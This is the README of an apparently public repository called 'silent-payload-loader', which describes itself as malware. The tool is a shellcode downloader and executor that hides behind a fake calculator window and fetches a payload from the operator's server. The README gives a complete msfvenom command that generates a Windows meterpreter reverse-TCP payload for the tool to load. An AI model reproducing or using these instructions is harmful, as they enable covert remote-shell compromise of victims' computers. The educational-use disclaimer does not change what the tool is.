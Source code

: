 # silent-payload-loader

Malware.

Powerfull shellcode downloader / executor, I am not good at writing readmes :>
You can replace the fake calc application in the foreground with your own. (calc code: Line 167 - 194)
Start your application from line 167 (The comments should help you)

**Note**: You need to change the defined PAYLOAD_URL in line 18 to your server hosting the payload.bin

## Generate shellcode:
Example for a meterpreter (64bit): 
```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=<your_port> -f raw -o payload.bin
```

## Disclaimer:
This tool is intended for educational and research purposes only. Do not use it without explicit permission. The author is not responsible for any misuse.
